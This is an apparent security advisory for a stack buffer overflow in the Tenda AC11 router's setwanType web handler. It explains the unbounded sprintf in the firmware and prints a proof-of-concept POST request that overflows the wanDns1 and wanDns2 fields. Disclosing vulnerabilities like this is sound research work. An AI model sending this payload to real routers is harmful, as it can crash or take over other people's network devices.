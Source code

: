 # Tenda Router AC11 Vulnerability
The Vulnerability is in `/goform/setwanType` page which influence the lastest version of this router OS. (this is a RTOS that are different from linux system)
The Version is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html)

## Vulnerability description
An issue was discovered on Tenda AC11 devices with firmware through 02.03.01.104_CN. A stack buffer overflow vulnerability in `/gofrom/setwanType` allows attackers to execute arbitrary code on the system via a crafted post request.

In the function `sub_800C6448` (page `/gofrom/setwanType`) have one stack buffer overflow vulnerability.

1. It isn't limit our input when we input `wanDns1` in `v12` and `wanDns2` in `v13`.
2. Then `v12` and `v13` will copy to a stack value `v45` by using `sprintf_1(v45, "%s %s", v12, v13);` .%s couldn't limit copy length ,so wo can make stack buffer overflow in `v45`
![](./1.png)

## poc 

```
POST /goform/setwanType HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wanDns1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wanDns2=wanDns2=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true&wanType=static
```
## Acknowledgment 

Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
